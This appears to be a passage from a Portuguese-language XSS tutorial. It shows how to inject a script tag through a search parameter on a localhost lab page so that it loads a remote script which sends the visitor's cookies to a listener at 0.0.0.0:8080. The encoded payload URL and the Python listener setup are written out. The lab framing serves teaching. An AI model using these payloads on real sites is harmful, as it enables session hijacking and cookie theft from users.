 #### Conhecimento Base

Já vimos anteriormente que o método `createElement()` nos possibilita criar qualquer elemento HTML em um documento.

Também vimos que o método `appendChild()` nos permite criar um nó filho no DOM com base em um nó pai.

#### Exploração

Seguindo o raciocínio do que já vimos, podemos criar um novo elemento do tipo `script` usando JavaScript e anexá-lo ao documento com o método `appendChild()`. Este novo elemento pode importar nosso script malicioso para a página alvo.

**Script malicioso:**

```javascript
window.addEventListener("load", function() {
    alert(document.cookie);
    new Image().src = "http://0.0.0.0:8080/?cookie=" + document.cookie;
});
```

**Script a ser injetado**

```html
<script>
	var newtag = document.createElement('script');
	newtag.type = "text/javascript";
	newtag.src = "http://0.0.0.0:8080/script.js";
	document.body.appendChild(newtag);
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0A%09var%20newtag%20%3D%20document.createElement%28%27script%27%29%3B%0A%09newtag.type%20%3D%20%22text%2Fjavascript%22%3B%0A%09newtag.src%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%2Fscript.js%22%3B%0A%09document.body.appendChild%28newtag%29%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/11/?search=%3Cscript%3E%0A%09var%20newtag%20%3D%20document.createElement%28%27script%27%29%3B%0A%09newtag.type%20%3D%20%22text%2Fjavascript%22%3B%0A%09newtag.src%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%2Fscript.js%22%3B%0A%09document.body.appendChild%28newtag%29%3B%0A%3C%2Fscript%3E](http://localhost/11/?search=%3Cscript%3E%0A%09var%20newtag%20%3D%20document.createElement%28%27script%27%29%3B%0A%09newtag.type%20%3D%20%22text%2Fjavascript%22%3B%0A%09newtag.src%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%2Fscript.js%22%3B%0A%09document.body.appendChild%28newtag%29%3B%0A%3C%2Fscript%3E)

Podemos iniciar um *Python server* na porta 8080 que hospeda o script malicioso e configurado para ouvir as requisições feitas.

![Python server](/img/posts/2023-06-21-beyond-the-alert-27.png)
